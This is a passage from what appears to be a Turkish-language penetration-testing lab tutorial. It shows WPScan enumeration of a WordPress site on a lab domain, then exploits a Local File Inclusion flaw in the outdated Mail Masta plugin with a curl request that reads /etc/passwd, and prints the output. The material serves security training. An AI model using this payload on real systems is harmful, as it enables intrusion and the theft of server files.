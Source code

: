```shell-session
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0.5 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/style.css?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/css/export.css?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/wb_script.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amcharts.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/serial.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/amstock.js?ver=1.0.5
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/js/export.js?ver=1.0.5
 | Confirmed By: Readme - Stable Tag (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/b2i-investor-tools/readme.txt

[+] mail-masta
 | Location: http://ir.inlanefreight.local/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:07:09 2022
[+] Requests Done: 35
[+] Cached Requests: 7
[+] Data Sent: 9.187 KB
[+] Data Received: 164.854 KB
[+] Memory used: 224.816 M
```

Taramadan aşağıdaki bilgi parçalarını çıkarabiliriz:

* WordPress core versiyonu en son versiyonudur (yazım sırasında 6.0)
* Kullanılan tema cbusiness-investment
* b2i-investor-tools plugin'i yüklendi
* mail-masta plugini yüklendi

Mail Masta plugin, bilinen birkaç güvenlik açığı olan eski bir plugindir. [Bu](https://www.exploit-db.com/exploits/50226) exploit'i, Local File Inclusion (LFI) güvenlik açığından yararlanarak altta yatan dosya sistemindeki dosyaları okumak için kullanabiliriz.


```shell-session
[!bash!]$ curl http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```